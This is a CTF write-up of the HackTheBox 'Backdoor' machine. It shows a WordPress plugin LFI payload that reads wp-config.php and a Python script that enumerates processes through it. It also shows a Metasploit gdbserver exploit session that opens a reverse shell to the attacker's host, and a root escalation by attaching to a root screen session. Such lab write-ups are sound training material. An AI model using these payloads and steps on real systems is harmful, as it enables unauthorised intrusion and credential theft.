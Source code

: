 ```yaml
---
title: "HackTheBox: \"Backdoor\" Walkthrough"
date: 2022-04-24
tags: ['hackthebox', 'ctf']
slug: "hackthebox-backdoor-walkthrough"
categories: ["HackTheBox Walkthrough"]
sidebar: false
draft: false
---
```


The now retired *Backdoor* machine on HackTheBox is supposed to be an "easy" machine, so
it should be absolutely straight-forward. Let's see!<!--more-->

## Foothold

On this machine, I started with a directory scan, using the `fuzz-Bo0oM.txt` list, which
usually yields good results - at least on HackTheBox. We'll notice that directory
listing is enabled almost everywhere, so we can also explore manually.

In the end, we'll find a pretty standard WordPress installation with a
single plugin called "ebook-download" enabled - for which we will find a LFI vuln pretty quick:

```plain
.../filedownload.php?ebookdownloadurl=../../../wp-config.php
```

Neat - we can download the WordPress configuration, containing credentials for the database.
But it seems we can't do anything with the credentials for the database server.

Let's continue with a port scan:
```plain
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
```
Of course, `1337/tcp` stands out. But what kind of service is running there?
We can try a few simple things: Try to open it in a browser, try to SSH and as last resort,
try telnet. Sadly, none of that works.

Now, the next step took me a while: Using Linux, we can read `/proc/<pid>/cmdline`
to get information about a running process, so we might be able to find
the process which has opened port 1337. We only need to know the PID - which we don't.
So let's use the LFI we found earlier to scan a range of PIDs.

To be honest, this script could have been *a lot* easier - but somehow I got the idea
"I want to scan faster - I need multiple connections", so I ended up with this.
Maybe I'm able to use it again in the future 😉

(*Disclaimer: I'm not an async Python expert, so forgive me (or maybe even tell me)
if there is a bad mistake.*)

```python
import asyncio
import aiohttp
from aiohttp import ClientSession, ClientConnectorError

# https://stackoverflow.com/a/61478547
async def gather_with_concurrency(n, *tasks):
    semaphore = asyncio.Semaphore(n)

    async def sem_task(task):
        async with semaphore:
            return await task
    return await asyncio.gather(*(sem_task(task) for task in tasks))

async def fetch_html(url: str, session: ClientSession, **kwargs) -> tuple:
    try:
        resp = await session.request(method="GET", url=url, **kwargs)
    except ClientConnectorError:
        return (url, 404, "")
    return (url, resp.status, await resp.text())

async def make_requests(urls: set, **kwargs) -> None:
    async with ClientSession() as session:
        tasks = []
        for url in urls:
            tasks.append(
                fetch_html(url=url, session=session, **kwargs)
            )
        results = await gather_with_concurrency(10, *tasks)

    for result in results:
        print(f'{str(result[2])}')

if __name__ == "__main__":
    urls = [(
            f"http://10.10.11.125/wp-content/plugins/ebook-download/"
            f"filedownload.php?ebookdownloadurl=/proc/{i}/cmdline"
        ) for i in range(10000)]

    asyncio.run(make_requests(urls=urls))
```

This scan yields (with some garbage removed in the beginning and end,
due to the way the download script works):
```plain
suuser-ccd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
bash-ccd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
gdbserver--once0.0.0.0:1337/bin/true
```

Finally! On port 1337 there seems to be a `gdbserver` running. That seems
pretty unusual but why not - let's see what we can do with this.

## User

After some research, we find the `exploit/multi/gdb/gdb_server_exec` payload
in metasploit. I used the following configuration, where everything should be
pretty self-explanatory, except for `set target 1`: 0 is x86, 1 is x86_64.
Using the wrong architecture, running the exploit will fail with the message:

> The payload architecture is incorrect: the payload is x86, but x64 was detected from gdb.

```plain
msf6 > use exploit/multi/gdb/gdb_server_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set LHOST 10.10.14.5
LHOST => 10.10.14.5
msf6 exploit(multi/gdb/gdb_server_exec) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/gdb/gdb_server_exec) > set RHOSTS 10.10.11.125
RHOSTS => 10.10.11.125
msf6 exploit(multi/gdb/gdb_server_exec) > set RPORT 1337
RPORT => 1337
msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
target => 1
msf6 exploit(multi/gdb/gdb_server_exec) > set payload payload/linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
[*] 10.10.11.125:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.10.11.125:1337 - Executing the payload...
[*] Sending stage (38 bytes) to 10.10.11.125
[*] Command shell session 2 opened (10.10.14.5:4444 -> 10.10.11.125:54214 ) at 2022-04-24 15:15:56 -0400

id
uid=1000(user) gid=1000(user) groups=1000(user)

```

Done! 👍

## Root

For privilege escalation, I'm going to ask LinPEAS for an idea. Under the section
"Unix Sockets Listening" there is an unusual entry: `/run/screen/S-root/964.root`.

So there seems to be a screen session running. We cannot directly access this socket file:
```plain
drwx------  2 root root  60 Apr 24 18:13 S-root
```
But as this is an "easy" machine, there are no false trails - so it's highly likely
that we *must* do something with the `screen` command.

As I had literally no idea what do to, I Googled *"access root screen session as user"*
(or something similar - didn't write down the exact search term 😉), which
lead to [this post](https://unix.stackexchange.com/a/163878). The interesting part being:
```plain
screen -x host_username/session_name
```
We know the username is `root` and the session name is also `root`, so let's try
```plain
$ screen -x root/root
```
... and we will find ourselves in a screen session with a root shell!

NB: Using a non-upgraded reverse shell, this command fails with the message:

> Must be connected to a terminal.

## Conclusion and Learnings

Although this is an "easy" machine, I struggled a bit after finding the LFI.
Enumerating the processes using `/proc` was something I didn't think off right away.
I spent way too much time on the Python script, but also learned a bit while writing it.
Also, I learned that just because a socket is not readable does not mean I can't do
anything with it. Finally, I learned about screen multi-user mode.

All in all:
I had some fun with this machine, despite the setup not looking very realistic
(except for the LFI).